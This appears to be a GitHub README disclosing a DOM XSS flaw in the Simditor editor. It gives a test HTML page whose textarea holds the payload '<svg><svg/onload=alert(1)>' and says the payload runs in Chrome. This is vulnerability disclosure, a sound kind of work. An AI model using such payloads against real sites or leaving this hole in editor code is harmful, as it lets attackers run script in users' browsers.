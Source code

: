 # simditor
https://github.com/mycolorway/simditor
DOM XSS


Download the Simditor source code.
--
---------------------------------------------------------------------
We just need this three js,you can use my sample code or download from https://github.com/mycolorway/simditor.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--


Edit a HTML FILE
--
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```
--

Open the HTML in any browser.
--
*This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--
